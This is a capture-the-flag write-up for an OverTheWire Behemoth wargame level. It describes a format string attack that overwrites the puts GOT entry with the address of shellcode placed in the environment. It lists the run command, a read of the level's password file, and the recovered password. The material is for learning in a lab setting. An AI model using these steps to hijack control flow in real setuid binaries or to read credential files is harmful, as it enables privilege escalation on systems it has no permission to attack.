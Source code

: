 ```yaml
---
layout: default
title: behemoth4
---
```





first i created `profile.rr2` file and put the follow content in it:
```
program=/behemoth/behemoth3
stdin=input
```

then, i inserted the payload into the input file:
```
python3 payload.py > input
```

and then, when i want to debug with r2 and the given input, i can run this line: 
```
r2 -e dbg.profile=profile.rr2
```
first, we can see that the binary doesn't use ASLR, and also the relro is turned off.
![alt text](./images/level4_1.png)

so, let's try to use the format string attack to override the address of the puts function to our shellcode address.

find the address to override:
![alt text](./images/level4_2.png)
![alt text](./images/level4_3.png)
so, the address is: `0x0804b218`
the address we want to insert is: `0xffffd53f` (same as last level, put shellcode on env, and find its address)

the python script for creating the payload can is here: [level4.py]
```python
{%include_relative scripts/level4.py %}
```


after building the payload, all left is to run this:
```
(python3 payload.py;cat) | /behemoth/behemoth3
```

and then
```
cat /etc/behemoth_pass/behemoth4
hpjUdlG723
```

**Flag:** ***`hpjUdlG723`*** 
